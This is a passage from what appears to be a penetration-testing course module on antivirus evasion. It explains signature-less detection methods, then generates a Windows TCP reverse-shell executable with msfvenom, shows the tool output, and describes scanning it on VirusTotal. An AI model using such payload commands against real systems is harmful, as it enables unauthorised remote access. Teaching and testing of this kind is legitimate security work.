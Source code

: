 Since these techniques do not require malware signatures, they can be used to identify unknown malware, or variations of known malware, more effectively. Given that antivirus manufacturers use different implementations when it comes to heuristics, behavior, and machine learning detection, each antivirus product will differ in terms of what code is considered malicious.

It's worth noting that many antivirus developers use a combination of these detection methods to achieve higher detection rates.

To demonstrate the effectiveness of various antivirus products, we will start by scanning a popular _Metasploit_ payload. Using _msfvenom_, we will generate a standard [_Portable Executable_](https://en.wikipedia.org/wiki/Portable_Executable) (PE) file containing our payload. In this case we will use a simple TCP reverse shell.

The PE file format is used on Windows operating systems for executable and object files. The PE format represents a Windows data structure that details the information necessary for the [_Windows Loader_](https://en.wikipedia.org/wiki/Loader_(computing)) to manage the wrapped executable code including required dynamic libraries, API import and export tables, etc.

Before generating any Metasploit payloads, it is a best practice to make sure we are running the latest version of Kali. Metasploit gets updated frequently and its AV signatures could change as well. AV vendors must rebuild those signatures and push them as updates. This constant and intrinsic delay in pushing new up-to-date signatures could give attackers an extra edge during a penetration test, since a fresh Metasploit version might run undetected due to stale AV signatures.

Let's generate the test binary payload by running the **msfvenom** command followed by the **\-p** argument specifying the payload. We'll then pass the reverse shell local host (**LHOST**) and local port (**LPORT**) arguments along with the **EXE** file format and redirect the output to a file named **binary.exe**.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

> Listing 5 - Generating a malicious PE containing a meterpreter shell.

Next, we will run a virus scan on this executable. Rather than installing many antivirus applications on our local machine, we can upload our file to [_VirusTotal_](https://www.virustotal.com/#/home/upload), which will scan it to determine the detection rate of various AV products.

VirusTotal is convenient, but it generates a hash along with storing the original file for each unique submission. The submitted files along with the metadata are then shared with all participating AV vendors. As such, take care when submitting sensitive payloads as the hash is considered public from the time of first submission.

The results of this scan are listed below.

![[/9a05cfc8fe2cd0438b9b48b03c79ed23-antivirus_evasion_01b.png]]

Figure 1: Virustotal results on the msfvenom payload.

We'll notice in our results that many antivirus products determined our file is malicious based on the different detection mechanisms we have illustrated in this section.

